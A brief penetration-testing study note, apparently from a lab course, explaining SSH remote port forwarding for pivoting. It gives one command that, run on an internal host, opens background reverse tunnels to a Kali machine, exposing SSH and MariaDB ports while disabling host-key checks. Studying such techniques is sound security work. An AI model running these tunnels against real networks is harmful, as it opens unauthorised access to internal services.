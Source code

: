 > [!info] 
> We open up port **1122** on Kali to point to port **22** on the MariaDB host. Next, we will also open **13306** on Kali to point to **3306** on the MariaDB host.
> 
> We need to add the **-N** flag to specify that we are not running any commands. We also need the **-f** option to request ssh to go to the background. Finally, we also need to provide the key file that we are using via **-i**. 

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa chris@192.168.119.151
```

> [!note] 
>  You need to generate a [[keys]] (key-pair) first and add the public key to Kali before running the command above